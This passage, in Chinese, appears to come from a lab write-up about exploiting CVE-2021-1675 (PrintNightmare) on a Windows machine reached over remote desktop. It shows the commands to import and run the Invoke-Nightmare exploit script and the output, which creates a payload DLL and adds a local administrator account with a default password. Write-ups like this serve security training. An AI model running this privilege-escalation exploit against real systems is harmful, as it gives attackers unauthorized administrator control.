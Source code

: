 ![](img/ba6d76f8507290bb56279de4a40f7d72.png)

**图 6**

用户名`adm1n`被提供给用户字段(图 6a)，密码`P@ssw0rd`被提供给密码字段(图 6b)。然后单击“OK”按钮进入管理员命令提示符。不幸的是，用户名和密码无法识别(图 7)。

![](img/101dbdece7dc6fc718782a5071e11f07.png)

**图 7**

看起来我需要找一个“工作场所”

在这个实验中，我切换到 Remmina 打开的远程桌面实例，并通过远程桌面从 PowerShell 界面运行漏洞利用:

```
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.**PS C:\Users\Atlas> Import-Module \\tsclient\atlas\CVE-2021-1675\CVE-2021-1675.ps1**Security warning
Run only scripts that you trust. While scripts from the internet can be useful, this script can potentially harm your
computer. If you trust this script, use the Unblock-File cmdlet to allow the script to run without this warning
message. Do you want to run \\tsclient\atlas\CVE-2021-1675\CVE-2021-1675.ps1?
[D] Do not run  [R] Run once  [S] Suspend  [?] Help (default is "D"): R**PS C:\Users\Atlas> Invoke-Nightmare**
[+] using default new user: adm1n
[+] using default new password: P@ssw0rd
[+] created payload at C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_18b0d38ddfaee729\Amd64\mxdwdrv.dll"
[+] added user  as local administrator
```